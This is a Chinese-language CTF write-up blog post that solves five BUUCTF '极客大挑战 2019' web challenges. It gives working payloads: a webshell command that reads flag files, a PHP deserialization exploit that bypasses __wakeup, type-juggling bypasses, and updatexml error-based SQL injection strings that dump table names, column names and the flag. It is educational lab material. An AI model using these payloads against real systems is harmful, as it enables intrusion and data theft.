 ```yaml
---
title:  buu极客大挑战
date: 2024-10-01 13:25:14
permalink: /pages/8f5e89/
author: 
  name: the0n3
  link: https://the0n3.top
---
```


## [极客大挑战 2019]Http

打开页面，查看源码，找到隐藏的php页面的路径，基础的http header做了就给flag

![1](https://the0n3.top/medias/daily/geek/1.png)

## [极客大挑战 2019]Knife

白给的shell`Syc=system('tac /f*');`


## [极客大挑战 2019]PHP

提示备份，下载www.zip，压缩包里有`class.php`，审计

index.php里包含了class.php，并接收一个select get参数

![2](https://the0n3.top/medias/daily/geek/2.png)

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

exp

```php
$payload = new Name('admin',100);
echo urlencode(serialize($payload));
```

类里有个`wakeup`魔术方法，尝试修改对象的属性个数绕过，把2改3就可以了

![3](https://the0n3.top/medias/daily/geek/3.png)

## [极客大挑战 2019]BuyFlag

找到题目路径，访问，查看源码，里面有注释的php代码

三个限制，1.a student from CUIT，2.密码，3.金额

money，password都可以在源码里看到

![4](https://the0n3.top/medias/daily/geek/4.png)

没有找到`a student from CUIT`相关内容，最后可以通过抓包或者查看网站cookie，找到`user:0`，1就代表`a student from CUIT`

简单的绕过

1.第一层可以用`404a`绕过，他是字符串，和数字比较会自动转换，只保留开头的数字

2.第二层提示长度太长，可以使用科学计数法，`9e9`

![6](https://the0n3.top/medias/daily/geek/6.png)


## [极客大挑战 2019]HardSQL

参考：[【BUUCTF-[极客大挑战 2019]HardSQL 1详解】](https://www.cnblogs.com/junlebao/p/13836583.html)

报错注入

在sql语法里，可以使用`^`连接字段值和函数，进行异或运算

![7](https://the0n3.top/medias/daily/geek/7.png)

![8](https://the0n3.top/medias/daily/geek/8.png)

这里使用`^`拼接变量值和`updatexml`函数，`updatexml`函数会报错，回显出已经执行的结果，通过`updatexml`函数里不允许出现的字符`0x7e`来来让他报错`(updatexml(0x7e,注入语句,0x7e));`

测试，题目过滤了空格，等号，可以用括号绕过空格，用like绕过等号，最后补上注释符`%23`

```sql
?username=admin&password=1'^updatexml(0x7e,(select(version())),0x7e)%23
```

![9](https://the0n3.top/medias/daily/geek/9.png)

```sql
# 爆表
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like'geek'),0x7e),1)%23
# 爆字段 ~id,username,password~
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like"H4rDsq1"),0x7e),1)%23
# 爆数据
?username=admin&password=1'^updatexml(1,concat(0x7e,(select(group_concat(password))from(geek.H4rDsq1)),0x7e),1)%23
```
爆flag，只爆出了一半，用substr函数时截不出来，好像被过滤了，用`right`,`left`代替了

![10](https://the0n3.top/medias/daily/geek/10.png)


```sql
# 前30位 flag{758142ee-d5c3-4320-8bca-b
?username=admin&password=1'^updatexml(1,concat(0x7e,left((select(group_concat(password))from(geek.H4rDsq1)),30),0x7e),1)%23
# 后30位 e-d5c3-4320-8bca-ba29957a9055}
?username=admin&password=1'^updatexml(1,concat(0x7e,right((select(group_concat(password))from(geek.H4rDsq1)),20),0x7e),1)%23
```